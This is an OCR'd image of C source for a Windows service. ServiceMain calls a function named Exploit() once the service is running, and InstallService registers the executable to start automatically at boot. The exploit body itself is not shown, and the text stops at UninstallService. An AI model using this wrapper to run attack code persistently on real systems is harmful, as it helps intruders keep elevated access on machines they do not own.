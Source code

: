 ```c
void WINAPI ServiceMain( DWORD argc, TCHAR* argv[] ) {
    // initialise service status
    serviceStatus.dwServiceType = SERVICE_WIN32;
    serviceStatus.dwCurrentState = SERVICE_STOPPED;
    serviceStatus.dwControlsAccepted = 0;
    serviceStatus.dwWin32ExitCode = NO_ERROR;
    serviceStatus.dwServiceSpecificExitCode = NO_ERROR;
    serviceStatus.dwCheckPoint = 0;
    serviceStatus.dwWaitHint = 0;

    serviceStatusHandle = RegisterServiceCtrlHandler( serviceName, ServiceControlHandler );

    if ( serviceStatusHandle ) {
        // service is starting
        serviceStatus.dwCurrentState = SERVICE_START_PENDING;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );

        // do initialisation here
        stopServiceEvent = CreateEvent( 0, FALSE, FALSE, 0 );

        // running
        serviceStatus.dwControlsAccepted |= (SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
        serviceStatus.dwCurrentState = SERVICE_RUNNING;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );

        Exploit();
        WaitForSingleObject( stopServiceEvent, -1 );

        // service was stopped
        serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );

        // do cleanup here
        CloseHandle( stopServiceEvent );
        stopServiceEvent = 0;

        // service is now stopped
        serviceStatus.dwControlsAccepted &= ~(SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
        serviceStatus.dwCurrentState = SERVICE_STOPPED;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );
    }
}


void InstallService() {
    SC_HANDLE serviceControlManager = OpenSCManager( 0, 0, SC_MANAGER_CREATE_SERVICE );

    if ( serviceControlManager ) {
        TCHAR path[ _MAX_PATH + 1 ];
        if ( GetModuleFileName( 0, path, sizeof(path)/sizeof(path[0]) ) > 0 ) {
            SC_HANDLE service = CreateService( serviceControlManager,
                            serviceName, serviceName,
                            SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
                            SERVICE_AUTO_START, SERVICE_ERROR_IGNORE, path,
                            0, 0, 0, 0, 0 );
            if ( service )
                CloseServiceHandle( service );
        }
        CloseServiceHandle( serviceControlManager );
    }
}

void UninstallService() {
```